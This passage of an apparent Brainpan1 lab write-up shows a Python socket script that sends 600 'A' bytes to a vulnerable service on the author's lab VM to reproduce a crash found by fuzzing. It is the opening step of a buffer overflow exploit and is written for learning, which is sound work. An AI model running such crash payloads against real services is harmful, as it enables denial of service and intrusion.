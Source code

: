 ***

# Exploitation

From previous fuzzing I discovered that character sequence of approximately 600 bytes crashes the program. A simple python script can be made for sending data. 

{% highlight python %}

#!/usr/bin/python
import socket
import time

TARGET = "192.168.0.228" #228 for my windows VM
PORT = 9999
PAYLOAD = "A" * 600


######################################

try:

	print "[+] Connecting to IP:", TARGET, "at PORT:", PORT
	time.sleep(1)
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((TARGET,PORT))

	print "[+] Sending the data ..."
	time.sleep(1)
	s.send(PAYLOAD) #Sends payload
	print "[+] DONE!!"

	print "[+] Trying to connect again..."
	time.sleep(1)
	s.connect((TARGET,PORT)) #See if the service is still up

except:
	print "[-] Error connecting - possible crash!!!"


{% endhighlight %}

> Note: The IP change to .228 is due to tests being conducted on a new Windows VM

<img src="/img/blog/brainpan1/brainpan1-05.png">
